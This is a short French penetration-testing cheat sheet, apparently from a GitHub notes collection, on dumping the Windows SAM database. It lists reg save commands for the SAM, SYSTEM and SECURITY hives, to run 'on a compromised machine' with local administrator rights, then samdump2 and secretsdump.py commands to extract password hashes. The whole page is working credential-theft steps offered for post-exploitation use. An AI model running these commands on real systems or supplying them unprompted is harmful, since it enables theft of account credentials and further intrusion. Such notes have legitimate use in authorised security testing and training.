 # Base SAM

### Récupérer la base SAM

En PowerShell sur une machine compromise, il faut exécuter les commandes suivantes :

```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

_Note : les droits "administrateur local" sont requis._

### Extraire les _hashs_

```
samdump2 system sam
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL # Fonctionne pour W10 et W11
```

